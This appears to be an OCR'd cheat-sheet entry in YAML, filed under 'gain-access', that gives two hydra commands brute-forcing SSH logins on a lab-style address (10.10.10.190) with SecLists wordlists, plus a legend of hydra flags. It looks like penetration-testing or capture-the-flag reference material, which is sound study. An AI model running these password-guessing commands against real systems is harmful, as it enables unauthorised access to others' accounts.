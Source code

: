 ```yaml
---
functions:
  gain-access:
    - description: hydra
      code: |
        hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/seclists/Passwords/Common-Credentials/top-20-common-SSH-passwords.txt ssh://10.10.10.190:22 -t 6
        hydra -l root -P /usr/share/seclists/Passwords/Common-Credentials/top-20-common-SSH-passwords.txt ssh://10.10.10.190:22 -t 6
        
        -l --> username
        -L --> username list
        -p --> password
        -P --> password list
        -t --> threads
---
```

